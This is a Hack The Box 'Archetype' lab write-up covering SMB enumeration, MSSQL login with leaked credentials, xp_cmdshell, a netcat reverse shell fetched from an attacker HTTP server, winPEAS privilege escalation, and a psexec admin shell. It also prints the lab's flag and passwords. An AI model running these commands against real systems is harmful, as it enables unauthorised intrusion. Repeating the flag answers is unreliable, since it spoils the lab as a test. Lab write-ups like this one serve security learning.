 # **- HTB - Archetype**    
### MSSQL, enum4linux, public SMB shares
<br>

```
ip=10.129.190.66
```
### **Processs:**
<br>
   
1. Standard nmap scan 


>nmap $ip -sV -sC -oN nmap/initial -A 

Interesting results:
```
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
```
2. List SMB shares if any
>  smbclient -N -L $ip

Interesting results:
```
    Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```
3. Spot the public 'backups' share, connect and get contents

> smbclient -N \\\\$ip\\backups \
> ls \
> get prod.dtsConfig


4. After cat'ing out the file we see a nice plain text domain/user and password
```
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
```
5. Had to google what the hell 'IMPacket' was but the sytax is just;
> python3 mysqlclient.py Archetype\sql_svc@$ip -windows-auth

6. More google'ing for xp_cmdshell - found a walkthrough for how to enable
7. From here we have *a* shell but not a very good one - time to stablize!
    - Step 1: no netcat on the windows box so we need to download and move that over via a python http server, then standard reverse shell from there
> python3 -m http.server  `- from within the directory containing the nc.exe file` \
> wget http://10.10.14.53:8000/nc.exe -OutFile C:\\Users\\Public\\nc.exe `- from the Windows reverse shell`\
> nc -lvnp 7890  \
> xp_cmdshell "C:\\Users\\Public\\nc.exe -e cmd.exe 10.10.14.53 7890" `- on your SQL terminal`

1. From here we have a windows cmd terminal - `type C:\Users\sql_svc\Desktop\user.txt` and we have our user flag - nice.
```
3e7b102e78218e935bf3f4951fec21a3
```
9. Now, we are on the box as sql_svc but have no admin rights - time for prvesc. Apparently the tool for this job is "winPEAS" linpeas windows alternative.
> python3 -m http.server `- from within the directory containing the winPEASx64.exe file` \
> powershell.exe `- from the Windows reverse shell`\
> wget http://10.10.14.53:8000/winPEASx64.exe -OutFile C:\\Users\\Public\\winPEASx64.exe `- from the Windows reverse shell`\
> C:\\Users\\Public\\winPEASx64.exe `- from the Windows reverse shell`
10. WinPEAS showed us an interesting file in `...PowerShell\PSReadLine\ConsoleHost_history.txt` \
which when cat'd out gives us the admin password
```
/user:administrator MEGACORP_4dm1n!!
```
11. home stretch - Back all the way out to our local linux terminal, run psexec.py (part of IMPacket) using the following syntax
> psexec.py administrator@$ip

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; This will drop you into an administrator cmd shell - *boom, challenge complete.*  
